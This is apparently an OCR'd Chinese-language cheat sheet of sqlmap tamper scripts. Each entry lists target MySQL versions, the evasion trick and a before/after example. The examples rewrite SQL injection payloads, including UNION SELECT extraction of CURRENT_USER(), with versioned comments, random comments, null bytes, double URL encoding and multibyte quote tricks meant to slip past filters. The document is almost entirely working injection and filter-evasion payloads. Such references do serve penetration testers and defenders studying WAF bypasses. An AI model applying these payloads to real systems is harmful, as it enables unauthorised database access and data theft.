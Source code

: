 ```
作用：注释绕过 
使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#') 
使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

halfversionedmorekeywords.py
适用数据库：MySQL < 5.1 
测试通过数据库：MySQL 4.0.18/5.0.22 
作用：在每个关键字前添加mysql版本注释 
使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 
使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa

space2morehash.py
适用数据库：MySQL >= 5.1.13 
测试通过数据库：MySQL 5.1.41 
作用：将空格替换为#，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

apostrophenullencode.py
适用数据库：ALL 
作用：用非法双字节Unicode字符替换单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %00%271%00%27=%00%271

appendnullbyte.py
适用数据库：ALL 
作用：在有效载荷的结束位置加载null字节字符编码 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1%00

chardoubleencode.py
适用数据库：ALL 
作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

unmagicquotes.py
适用数据库：ALL 
作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格 
使用脚本前：tamper("1' AND 1=1") 
使用脚本后：1%bf%27 AND 1=1--

randomcomments.py
适用数据库：ALL 
作用：用注释符分割sql关键字 
使用脚本前：tamper('INSERT') 
使用脚本后：I/**/N/**/SERT
```
